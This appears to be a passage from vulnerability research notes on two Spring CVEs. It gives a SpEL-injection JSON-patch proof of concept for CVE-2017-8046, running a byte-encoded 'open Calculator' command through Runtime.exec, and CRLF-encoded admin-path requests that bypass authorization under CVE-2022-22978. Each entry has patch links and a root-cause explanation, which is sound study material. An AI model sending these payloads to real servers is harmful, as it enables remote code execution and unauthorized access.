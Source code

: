 ### （4）Spring Data Rest
#### CVE-2017-8046 SpEL
Affected Version: < 2.5.12 or 2.6.7 or 3.0 RC3

Diff: https://github.com/spring-projects/spring-data-rest/commit/8f269e28fe8038a6c60f31a1c36cfda04795ab45

POC: 
```
// Create User
POST /people HTTP/1.1
Content-Type:application/json

{"firstName":"san","lastName":"zhang"}

// Patch, modify user info
PATCH /people/1 HTTP/1.1
Content-Type:application/json-patch+json

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))/lastName", "value": "hacker" }]
```
Factor: 
```
PatchOperation
protected void setValueOnTarget(Object target, Object value) {
    this.spelExpression.setValue(target, value);
}
```
### （5）Spring Security

#### CVE-2022-22978 Authorization Bypass
Affected Version: < 5.5.6, 5.6.3, earlier

Official description: 

> Applications using RegexRequestMatcher with `.` in the regular expression are possibly vulnerable to an authorization bypass

Diff: https://github.com/spring-projects/spring-security/commit/70863952aeb9733499027714d38821db05654856

POC: (`\r` -> `%0d`, `\n` -> `%0a`)
```
/admin/axisx%0a
/admin/axisx%0a%0d
```
Factor: 
```java
// RegexRequestMatcher
public boolean matches(HttpServletRequest request) {
    String url = request.getServletPath();
    String pathInfo = request.getPathInfo();
    String query = request.getQueryString();
    ...
    return this.pattern.matcher(url).matches();  // regexMatchers("/admin/.*")
}

request.getRequestURL(): http://ip:port/admin/axisx%0a%0d
request.getRequestURI(): /admin/axisx%0a%0d
request.getContextPath(): /Project Name/ or ""
request.getServletPath(): /admin/axisx\n\r
request.getPathInfo()：/Servlet Path/ or Null
```
Summary: `.` in regular matches do not handle `\n`,`\r`
